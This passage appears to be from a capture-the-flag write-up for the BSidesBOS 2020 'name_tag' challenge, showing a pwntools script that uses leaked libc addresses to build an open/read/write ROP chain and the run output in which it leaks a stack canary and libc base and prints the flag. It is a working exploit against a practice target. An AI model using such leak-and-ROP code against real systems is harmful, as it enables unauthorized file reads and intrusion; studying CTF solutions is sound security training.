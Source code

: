 ```python
leaks = io.clean()[:-1].split(b"\n")
if len(leaks) < 3:
    return
puts_addr = int.from_bytes(leaks[-2], "little")
malloc_addr = int.from_bytes(leaks[-1], "little")
libc.address = puts_addr-libc.symbols['puts']

# Write flag file name to flag_addr
io.sendline("./flag.txt")

# Do the open/read/write ROP, ensuring to include libc in the ROP instance so
# it can find the right address.
r = ROP([exe, libc])
r.raw(1) #  r13-15 (for the rsp gadget used to pivot stack)
r.raw(2) #  r13-15
r.raw(3) #  r13-15
r.open(flag_addr, 0) # open with read permission
if args.LOCAL: # file descriptors experimentally chosen until it worked
    r.read(3, heap, 0xff)
else:
    r.read(6, heap, 0xff)
r.write(1, heap, 0xff) # write to stdout
io.sendline(r.chain())

# Retrieve the flag from stdout, getting rid of excess 0s printed.
dat = io.recv().replace(b"\x00", b"").decode()
if len(dat) > 0:
    print(dat)
```

Running this against the real server...

```
$ ./exploit.py REMOTE
[*] '/home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/kali/gh-ctf/bsidesbos-2020/name_tag/libc-2.32-x86_64.so'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.ctf.games on port 32181: Done
[*] Loaded 15 cached gadgets for 'name_tag-traceable'
[*] -> cookie: 0x28e854e5072aa00
[*] libc: 0x7f17406d1000
[*] Loaded 187 cached gadgets for './libc-2.32-x86_64.so'
flag{not_your_typical_overflow}
```
